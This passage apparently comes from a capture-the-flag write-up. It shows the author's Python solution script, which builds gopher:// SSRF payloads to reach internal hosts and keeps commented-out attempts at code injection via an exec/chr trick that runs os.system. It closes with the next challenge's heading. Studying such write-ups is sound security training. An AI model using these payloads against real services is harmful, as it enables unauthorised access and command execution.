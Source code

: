 ```python
# s.connect(('localhost', 8000))
# s.send(payload)
# for _ in range(10):
#     print(s.recv(1024).decode())
# exit()

payload = 'gopher://127.0.0.1:8000/_'+urllib.parse.quote(payload)
print(payload)
print(query(payload))


# payload = """
# import os
# os.system('ls')
# """[1:-1]
#
# code = "a = [{}]\n\n".format(','.join(map(str, map(ord, payload))))
# code += "exec(chr(0)[1:].join(a))"
#
# a = requests.get(url+'/a/'+code).content.decode()
# f = a.find('a = [')
# t = a.find('))')+2
#
# data, data_path = query(url+'/a/'+urllib.parse.quote(code))
# print(data, data_path)
#
# sess = requests.session()
#
# http_req = """
# GET {path} HTTP/1.1
# Host: 100.100.0.5:8080
# Range: bytes={brange}
# Connection: close
#
# """[1:-1].replace('\n', '\r\n').format(path=data_path, brange='{}-{}'.format(f, t))

# print(http_req)
# payload = 'gopher://100.100.0.5:8080/_' + urllib.parse.quote(http_req)
# payload = 'gopher://localhost:8000/_' + urllib.parse.quote(http_req)
# data, data_path = query(payload)
# print(data, data_path)
# print(requests.get(url+data_path).content)

# print(query(sys.argv[1]).decode(), end='')
```

intentionaly I haven't deleted commented out line. You can see how I worked hard to solve without serving file on my laptop :P



## flaglab {#flaglab}
Let me show you a copy of description on the score server:
```
You might need a 0day.
http://100.100.0.100

download
```
